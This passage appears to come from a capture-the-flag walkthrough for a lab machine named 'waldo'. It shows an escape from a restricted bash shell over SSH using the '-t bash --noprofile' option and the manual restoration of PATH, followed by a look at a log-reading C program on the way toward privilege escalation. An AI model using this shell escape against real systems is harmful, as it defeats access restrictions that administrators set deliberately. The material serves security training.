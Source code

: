 We can easily bypass rbash by skipping the profile of the user with the `-t bash --noprofile` arguments:

```
waldo:~/.ssh$ ssh -i .monitor monitor@127.0.0.1 -t bash --noprofile
monitor@waldo:~$ 
```

However our PATH is no longer set so we'll need to set it manually:

```
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
monitor@waldo:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH
monitor@waldo:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
```

Now that we have access with a regular shell, we can start looking around.

In the `app-dev` directory of the `monitor` home directory, there is a log monitoring application along with the source code. The application simply reads hardcoded log files based on the CLI argument passed to it:

```c
[...]
case 'a' :
          strncpy(filename, "/var/log/auth.log", sizeof(filename));
          printFile(filename);
          break;
        case 'A' :
          strncpy(filename, "/var/log/alternatives.log", sizeof(filename));
          printFile(filename);
          break;
        case 'b' :
          strncpy(filename, "/var/log/btmp",sizeof(filename));
          printFile(filename);
          break;
        case 'd' :
          strncpy(filename, "/var/log/daemon.log",sizeof(filename));
          printFile(filename);
          break;
        case 'D' :
          strncpy(filename, "/var/log/dpkg.log",sizeof(filename));
          printFile(filename);
          break;
[...]
```         

We can modify the source code and re-compile it but it's not running as root so any modifications we make like adding a `/bin/bash` shell argument option will only result in a shell running as user `monitor`. At first, it seemed like this was a box with a cronjob running every few minutes that would compile and run the program but this isn't the case.

Next, we looked at the `v0.1` directory that contains yet another copy of the software. The interesting part here is that the application is able to read log files even though it doesn't have the SUID bit set:
